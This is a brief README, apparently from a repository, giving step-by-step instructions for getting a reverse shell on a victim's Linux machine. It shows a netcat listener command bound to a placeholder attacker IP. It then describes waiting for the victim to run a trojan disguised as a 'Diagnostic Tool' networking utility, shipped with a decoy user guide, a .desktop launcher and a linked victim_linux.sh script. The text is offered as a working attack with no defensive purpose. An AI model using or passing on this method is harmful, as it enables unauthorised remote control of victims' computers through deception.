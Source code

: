 # Gain access to victim's computer with reverse shell

1. On **attacker's** computer (Linux with netcat installed), run the following if
    - victim is using linux (**our case**)
    ```shell
    $ sudo nc -lnvp PORT_NUMBER -s ATTACKERS_IP_ADDRESS
    ```


2. Wait for the victim to run the 'Diagnostic Tool' executable file: 
    - Linux:
        - [User Guide PDF](./User%20guide.pdf)
        - Download this and uncompressed it: [NetworkingTool.tar.gz](./NetworkingTool.tar.gz)
        - Source code:
            - [NetworkTool.desktop](./NetworkTool.desktop) (executable), together with
            - [victim_linux.sh](./victim_linux.sh)


3. Boom! Access granted!
